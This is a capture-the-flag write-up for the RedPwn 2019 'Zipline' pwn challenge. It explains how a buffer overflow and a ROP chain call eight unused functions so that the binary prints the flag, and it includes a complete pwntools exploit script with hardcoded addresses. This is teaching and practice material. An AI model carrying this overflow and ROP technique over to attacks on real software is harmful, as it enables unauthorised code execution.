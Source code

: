 # Zipline

## Pwn - Points: 50

> Written by: blevy
>
> 
>
> `nc chall2.2019.redpwn.net 4005`
>
> [zipline](zipline)
>

The binary prints the flag when it passes a check of 8 variables set to `true`. There are also 8 functions, where each of them sets one of these variables to `true`, but they are never called. You have to overflow the buffer in the `zipline` function and build a ROP-chain to call all of the functions once and then return to the `RBP` to call the `i_got_u` function that contains the check and prints the flag.

Exploit script:

```python
from pwn import *


air = 0x8049216
water = 0x804926d
land = 0x80492c4
underground = 0x804931b
limbo = 0x8049372
hell = 0x80493c9
minecraft_nether = 0x8049420
bedrock = 0x8049477
i_got_u = 0x8049569

p = process('./zipline')

p.sendlineafter('\n', 'A' * 22 + p32(air) + p32(water) + p32(land) + p32(underground) + p32(limbo) + p32(hell) + p32(minecraft_nether) + p32(bedrock) + p32(i_got_u))
print p.recvall()
```